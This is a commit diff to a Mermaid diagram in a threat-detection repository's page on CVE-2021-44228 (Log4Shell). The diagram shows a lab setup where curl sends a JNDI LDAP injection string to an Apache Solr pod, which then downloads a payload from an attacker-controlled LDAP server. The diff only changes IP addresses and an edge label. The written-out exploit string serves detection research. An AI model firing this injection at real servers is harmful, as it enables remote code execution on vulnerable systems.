

Before and after one commit to danielpacak/awesome-threat-detection: the diagram in docs/vulnerabilities/cve-2021-44228.md, drawn with Mermaid. The commit also changed other lines of this file and 6 other files, not shown here.

````diff
--- a/docs/vulnerabilities/cve-2021-44228.md
+++ b/docs/vulnerabilities/cve-2021-44228.md
@@ -5,9 +5,9 @@
 ``` mermaid
 flowchart TD
-  javachains["Pod: Java Chains 10.244.0.76:8011 10.244.0.76:50389"]
-  solr["Pod: Apache Solr v8.11.0 10.244.0.77:8983"]
+  javachains["Pod: Java Chains 10.244.0.82:8011 10.244.0.82:50389"]
+  solr["Pod: Apache Solr v8.11.0 10.244.0.80:8983"]
   curl["curl"]
   
-  solr -- LDAP --> javachains
-  curl -- "curl -v 'http://localhost:8983/solr/admin/cores?action=${jndi:ldap://10.244.0.76:50389/b37308}'" --> solr
+  solr -- "LDAP (Download Payload)" --> javachains
+  curl -- "curl -v 'http://localhost:8983/solr/admin/cores?action=${jndi:ldap://10.244.0.82:50389/b37308}'" --> solr
 ```
````
